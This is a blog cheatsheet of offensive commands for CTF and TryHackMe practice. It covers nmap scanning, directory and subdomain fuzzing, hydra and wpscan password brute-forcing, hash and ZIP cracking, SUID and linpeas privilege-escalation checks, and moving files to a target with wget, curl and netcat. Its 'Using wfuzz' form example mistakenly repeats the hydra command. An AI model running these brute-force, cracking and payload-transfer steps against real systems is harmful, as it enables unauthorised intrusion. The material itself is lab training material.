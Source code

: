 ```yaml
---
layout: post
title: The Essentials - My Favorite Tools and Commands
summary: This cheatsheet contains essential commands I always use in CTFs, THM boxes, and in cybersecurity.  Includes commands and tools for discovery to transferring files, passing by web tools, and cracking. I encourage the other content creators to replicate this kind of cheatsheet on their platform (a mention will always be appreciated 😊).
date: 2020-07-30
categories: cheatsheets
author: Noxtal
thumbnail: gravatar
tags:
- essentials
- commands
- discovery
- web
- cracking
- privesc
- transferring
- nmap
- gobuster
- wfuzz
- wpscan
- hydra
- hashcat
- stegcracker
- fcrackzip
---
```


This cheatsheet contains essential commands I always use in CTFs, THM boxes, and in cybersecurity.  Includes commands and tools for discovery to transferring files, passing by web tools, and cracking. I encourage the other content creators to replicate this kind of cheatsheet on their platform (a mention will always be appreciated 😊).

-----

- [Discovery](#discovery)
  - [Nmap](#nmap)
  - [Web Directory and Query Parameters Bruteforce](#web-directory-and-query-parameters-bruteforce)
- [Web](#web)
  - [HTTP Form Bruteforce](#http-form-bruteforce)
  - [Wordpress](#wordpress)
  - [Subdomain Bruteforce](#subdomain-bruteforce)
- [Cracking](#cracking)
  - [ZIP](#zip)
  - [Hashes](#hashes)
  - [Bruteforce SSH](#bruteforce-ssh)
  - [Steganography](#steganography)
- [Privescs Discovery](#privescs-discovery)
- [Transferring Files](#transferring-files)

# Discovery
## Nmap
Basic nmap scan:
```bash
nmap -vv -sC -sV -oN nmap.log $IP
```

Complete nmap scan:
```bash
nmap -vv -A -p- -oN nmap-complete.log $IP
```

See my [nmap cheatsheet](https://noxtal.com/cheatsheets/2020/07/13/nmap-cheatsheet/#personnal-favorites) for other personal favorites.

## Web Directory and Query Parameters Bruteforce
Using gobuster:
```bash
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster.log -t 200 -u $URL
```

Using wfuzz:
```bash
wfuzz -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 200 --hc 404 http://www.host.name/FUZZ
```

Using wfuzz to bruteforce query parameters:
```bash
wfuzz -c -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 200 --hc 404 http://www.host.name/?parameter=FUZZ
```

Recursive directory scan with wfuzz:
```bash
wfuzz -c -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -t 200 --hc 404 -R $DEPTH http://www.host.name/FUZZ
```

# Web
## HTTP Form Bruteforce
Using Hydra:
```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt $IP http-post-form "<Login Page>:<Request Body>:<Error Message>"
```

Using wfuzz:
```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt $IP http-post-form "<Login Page>:<Request Body>:<Error Message>"
```

## Wordpress
WPScan + password bruteforce:
```bash
wpscan --url $URL --passwords /usr/share/wordlists/rockyou.txt --usernames usernames.txt
```

## Subdomain Bruteforce
Using wfuzz:
```bash
wfuzz -c -f wfuzz-sub.log -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u $URL -H "Host: FUZZ.host.name" -t 32 --hc 200 --hw 356
```

*Note: you will need to adjust the `--hc` and `--hw` parameters to your needs. Check `wfuzz -h` for more information about those.*

Using gobuster:
```bash
gobuster vhost -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u $URL -t 32
```

# Cracking
## ZIP
```bash
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt file.zip
```

## Hashes
Using hashcat:
```bash
hashcat -m $MODE hashes /usr/share/wordlists/rockyou.txt
```

## Bruteforce SSH
Using hydra:
```bash
hydra -f -l user -P /usr/share/wordlists/rockyou.txt $IP -t 4 ssh
```

## Steganography
Crack steghide passphrase using stegracker:
Install:
```bash
pip3 install stegcracker
```

Run:
```bash
python3 -m stegcracker tocrack.jpg
```

# Privescs Discovery
Find privescs exploiting SUID binaries:
```bash 
find / -perm -u=s -type f 2>/dev/null
```

Find privescs by listing sudo permissions:
```bash 
sudo -l
```

Enumerate interesting files, processes, and privescs using Linpeas:
1. Install [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) on your machine.
2. Transfer it to the target machine. (see the [Transferring Files](#Transferring-files))
3. Make it executable, run it, and `tee` the output to a log file for further analysis.
  
```bash 
chmod +x linpeas.sh
./linpeas.sh | tee linpeas.log
```

# Transferring Files
Open an HTTP server:
1. `cd` into the directory you want to access one or more files from.
2. Open an HTTP server:

```bash 
# PYTHON3
python3 -m http.server -b $IP $PORT

# PHP
php -S $IP:$PORT
```

{:start="3"}
3. Access the file:

```bash 
# Wget
wget http://$IP:$PORT/file

# Curl
curl http://$IP:$PORT/file -o target_file

# Netcat
nc $IP $PORT > target_file
```

Using SCP:
```bash 
# Send
scp /path/to/file user@$HOST:/path/

# Send with custom name
scp /path/to/file user@$HOST:/path/different_name

# Get
scp user@$HOST:/path/to/file /local/directory
```

*Note: To connect with an SSH key, you may need to use the `-i` flag followed by the path to the key.*

Using netcat:
```bash 
# Server
nc -lp $PORT < file

# Client
nc $IP $PORT > file
```
